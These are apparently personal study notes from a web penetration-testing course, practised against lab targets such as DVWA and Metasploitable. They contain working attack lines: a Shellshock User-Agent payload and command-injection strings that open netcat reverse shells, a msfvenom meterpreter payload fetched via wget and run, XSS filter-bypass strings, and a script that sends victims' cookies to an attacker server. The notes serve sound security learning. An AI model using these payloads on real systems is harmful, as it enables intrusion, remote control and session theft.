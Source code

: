 # Website Penetration

## HTTP Request and Response

HTTP Requests are sent to the server that contains the web page we want. It responds with a HTTP Response letting us know if it does or does not have the resource we requested, along with Headers and corresponding HTML code.

## Information Gathering and Dirb Tool

Use the same gathering tools as before along with Dirb

`dirb http://METASPLOITABLEIP` - returns list of subdirectories

## Burbsuite

A proxy that allows us to customize HTTP requests

03 Website Application Analysis -> burpsuite

Rewatch video for configuration.

## Shellshock Exploitation

Discovered in 2014. This exploit can be tested by downloading a VM from pentesterlab

Right click the cgi request to the vulnerable machine, and send to repeater

Replace the User Agent field - `() { :;}; /bin/bash -c 'nc OURIP OURPORT -e /bin/bash'`
Before sending with burpsuite, set up a listener `nc -lvp OURPORT`

This works because of a vulnerability that used to exist with how bash handled environment variables and empty functions.

`exploit/multi/http/apachee_mod_cgi_bash_env_exec` - Use msf exploit module to accomplish the same thing. Need to set RHOSTS and TARGETURI

## Command Injection

Similar to the Shellshock exploit, but this command injection takes place on the website itself.

This exploit can be tested in Metasploitable

`192.168.1.1; ls -al`

(&& / & / | also work as a command separator)

We can use netcat to exploit this

`nc -lvp IP`

`192.168.1.1; nc -e /bin/bash OURIP PORT`

Set DVWA to medium vulnerability

`192.168.1.1 & ls -al` ends up working

## Meterpreter Shell with Command Injection

Meterpreter gives us a lot more options than netcat.

So we need to create an appropriate payload, download the payload to the target machine, and execute the payload on the target machine (both of these through command injection)

Linux comes with Python installed, so we'll use a python payload.

`msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.9 LPORT=6000 >> tester.py`

The target machine has to download our payload from somewhere, so we'll set up an Apache server. Apache comes with Linux.

`sudo service apache2 start`

in root -

`cp /home/kali/Desktop/tester.py /var/www/html/`

in DVWA - 

`; wget 192.168.1.9/tester.py` - target machine downloads our payload

set up listener -

`use exploit/multi/handler` - Set payload (python/meterpreter/reverse_tcp), set LHOST and LPORT (6000)

in DVWA - 
`; python tester.py`

## Reflected XSS and Cookie Stealing

These attacks target other website users. Stored XSS attacks get saved by the server and runs on the future user's machine. Reflected XSS doesn't get saved by the server, but will work if you send a malicious link to someone. These are often used for session stealing, to mine on other machines, or to create botnets.

We will use DVWA to test.

Enter the script into the form input, then copy the URL.

`<script>alert('1')</script>`
`<SCRIPT>alert('1')</SCRIPT>`
`<scr<script>ipt>alert('1')</script>`

Start python HTTP server to save cookies from this script

`python -m SimpleHTTPServer 8000`

```
<SCRIPT>
    document.write('<img src="http://192.168.1.9:8000/' + document.cookie + ' ">');
</SCRIPT>
```